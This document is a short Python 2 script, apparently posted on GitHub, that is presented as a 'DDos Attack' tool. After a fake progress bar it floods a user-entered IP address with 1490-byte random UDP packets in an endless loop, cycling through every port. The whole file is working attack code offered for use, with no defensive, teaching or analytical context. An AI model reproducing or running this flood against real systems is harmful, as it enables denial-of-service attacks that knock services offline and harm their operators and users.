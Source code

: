 import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos Attack")
print "Author   : randykyle76"
print "github   : https://github.com/randykyle76"
print
ip = raw_input("IP Target : ")
port = input("Port       : ")

os.system("clear")
os.system("figlet Attack Starting")
print "[                    ] 0% "
time.sleep(5)
print "[=====               ] 25%"
time.sleep(5)
print "[==========          ] 50%"
time.sleep(5)
print "[===============     ] 75%"
time.sleep(5)
print "[====================] 100%"
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1
